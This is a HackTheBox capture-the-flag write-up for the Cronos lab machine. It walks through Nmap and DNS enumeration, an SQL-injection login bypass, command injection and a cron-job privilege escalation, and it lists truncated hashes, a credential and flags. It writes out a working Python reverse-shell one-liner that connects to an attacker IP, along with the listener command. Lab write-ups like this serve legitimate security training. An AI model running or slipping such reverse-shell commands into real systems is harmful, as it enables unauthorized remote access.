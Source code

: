 [HackTheBox] CronOS
===============
date: 13/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_cronos/infocard.png.webp)

This is a writeup for HTB VM [Cronos](https://www.hackthebox.eu/home/machines/profile/11). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

### Killchain
![writeup.overview.killchain](/static/files/posts_htb_cronos/killchain.png.webp)

### TTPs
1\. `80/tcp/http/Apache httpd 2.4.18 ((Ubuntu))`: [exploit_sqli](https://github.com/7h3rAm/writeups#exploit_sqli), [privesc_cron](https://github.com/7h3rAm/writeups#privesc_cron)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Nov 13 14:08:01 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.cronos/results/10.10.10.13/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.cronos/results/10.10.10.13/scans/xml/_quick_tcp_nmap.xml 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up, received user-set (0.084s latency).
Scanned at 2019-11-13 14:08:02 PST for 23s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn9KayOuHPy5NEqTRIHObjIEhbrz2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=
|   256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 13 14:08:25 2019 -- 1 IP address (1 host up) scanned in 24.49 seconds
```

2\. We start with DNS enumeration and with a reverse lookup and find that the subdomain `ns1.cronos.htb` is associated with the target IP. Since DNS is responding on TCP, we also perform a DNS zone transfer and find additional subdomains associated with the target IP:  
```
dig +noall +answer -x 10.10.10.13 @10.10.10.13
host -t axfr cronos.htb 10.10.10.13
```

![writeup.enumeration.steps.2.1](/static/files/posts_htb_cronos/screenshot01.png.webp)  

![writeup.enumeration.steps.2.2](/static/files/posts_htb_cronos/screenshot02.png.webp)  

3\. Upon visiting the `admin.cronos.htb` subdomain, we are presented with a login page, that is vulnerable to SQL injection:  

![writeup.enumeration.steps.3.1](/static/files/posts_htb_cronos/screenshot03.png.webp)  

### Findings
#### Open Ports
```
22/tcp  |  ssh     |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp  |  domain  |  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp  |  http    |  Apache httpd 2.4.18 ((Ubuntu))
```

## Phase #2: Exploitation
1\. We use SQLi to successfully bypass login and are presented with a page that allows running the `ping` and `traceroute` commands. The input field on this page is vulnerable to a command injection:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_cronos/screenshot04.png.webp)  

2\. We use this to execute a Python reverse shell and get interactive access on the target system:  
```
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_cronos/screenshot05.png.webp)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_cronos/screenshot06.png.webp)  

3\. We obtain the first flag since the file is readable by current user `www-data`:  

![writeup.exploitation.steps.3.1](/static/files/posts_htb_cronos/screenshot07.png.webp)  

## Phase #2.5: Post Exploitation
```
www-data@cronos> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cronos>  
www-data@cronos> uname
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@cronos>  
www-data@cronos> ifconfig
ens160  Link encap:Ethernet  HWaddr 00:50:56:b9:26:e7
        inet addr:10.10.10.13  Bcast:10.10.10.255  Mask:255.255.255.0
        inet6 addr: dead:beef::250:56ff:feb9:26e7/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:26e7/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:1008552 errors:0 dropped:0 overruns:0 frame:0
        TX packets:687541 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000
        RX bytes:157239763 (157.2 MB)  TX bytes:224790718 (224.7 MB)
www-data@cronos>  
www-data@cronos> users
root
noulis
```

## Phase #3: Privilege Escalation
1\. While enumerating, we find hardcoded MySQL credentials for user `admin` within the `/var/www/admin/config.php` file. We use these credentials to connect to MySQL service and obtain password hash for user `admin`. We were unable to crack this hash:  

![writeup.privesc.steps.1.1](/static/files/posts_htb_cronos/screenshot08.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_htb_cronos/screenshot09.png.webp)  

2\. Upon further enumeration, we find that there's a cronjob that run a PHP file every minute with `root` privileges. Luckily for us, the PHP file it runs is owned by current user `www-data`:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_cronos/screenshot10.png.webp)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_cronos/screenshot11.png.webp)  

3\. We can replace this file with a PHP reverse shell and catch the incoming shell to obtain elevated privileges:  

![writeup.privesc.steps.3.1](/static/files/posts_htb_cronos/screenshot12.png.webp)  

![writeup.privesc.steps.3.2](/static/files/posts_htb_cronos/screenshot13.png.webp)  

4\. We then view the contents of the `root.txt` file to complete the challenge:  

![writeup.privesc.steps.4.1](/static/files/posts_htb_cronos/screenshot14.png.webp)  

## Loot
### Hashes
```
root:$6$L2m6DJwN$p/xas4tCNp19sda4q2ZzGC82Ix7GiEb7xvCbzWCsFHs/eR82G4/YOnni/.L69tpCkOGo5lm0AU7zh9lP5........................
www-data:$6$SYixzIan$P3cvyztSwA1lmILF3kpKcqZpYSDONYwMwplB62RWu1RklKqIGCX1zleXuVwzxjLcpU6bhiW9N03AWkzVU........................
noulis:$6$ApsLg5.I$Zd9blHPGRHAQOab94HKuQFtJ8m7ob8MFnX6WIIr0Aah6pW/aZ.yA3T1iU13lCSixrh6NG1.GHPl.QbjHS........................
```
### Credentials
```
mysql: admin/kEjdbRigfBHURE.....
```
### Flags
```
/home/noulis/user.txt: 51d236438b333970dbba7...........
/root/root.txt: 1703b8a3c9a8dde879942c..........
```

## References
* <https://www.hackthebox.eu/home/machines/profile/11>  
* <https://www.youtube.com/watch?v=CYeVUmOar3I>  
* <https://medium.com/cronos-htb-walkthough/cronos-htb-walkthrough-9ef91750726>  
